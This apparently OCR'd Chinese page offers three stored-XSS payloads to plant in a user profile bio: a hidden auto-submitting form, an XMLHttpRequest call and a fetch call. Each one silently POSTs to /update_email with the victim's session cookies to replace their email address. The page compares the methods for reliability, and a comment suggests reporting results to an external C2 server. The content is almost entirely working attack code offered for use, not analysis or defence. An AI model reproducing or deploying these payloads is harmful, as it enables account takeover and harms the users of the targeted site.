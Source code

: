 > 

------

# 1. 最简单可靠 — 隐藏表单自动提交（兼容性强）

适用于后端接受 `application/x-www-form-urlencoded` 的传统表单 POST。不会受 fetch credentials 设置影响，浏览器会随请求带 Cookie。

把下面整个 HTML 放进 bio（或能被渲染为 HTML 的输入）：

```html
<form id=__f action="/update_email" method="POST" style="display:none">
  <input name="email" value="wodefa">
</form>
<script>document.getElementById('__f').submit();</script>
```

优点：兼容性强、在没有 fetch/XHR 的限制下也能发起同源写操作。缺点：可见请求来源为表单提交（Referer 仍会是当前页）。

------

# 2. XMLHttpRequest（更“程序化”）

适用于想用 JS 控制重试、回调或检测返回结果的场景。

```html
<script>
try {
  var xhr = new XMLHttpRequest();
  xhr.open('POST','/update_email',true);
  xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
  xhr.onreadystatechange = function(){
    if(xhr.readyState===4){
      // 可记录结果到外部C2或触发其它动作（测试时可注释）
      // console.log(xhr.status, xhr.responseText);
    }
  };
  xhr.send('email=wodefa');
} catch(e){}
</script>
```

优点：可检查状态码与响应，便于自动化验证。缺点：如后端要求 CSRF token，则失败。

------

# 3. fetch（现代写法，支持 credentials 参数）

```html
<script>
fetch('/update_email',{
  method:'POST',
  credentials:'same-origin',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'email=wodefa'
}).then(r=>{/* 可处理结果 */}).catch(e=>{/* 处理错误 */});
</script>
```
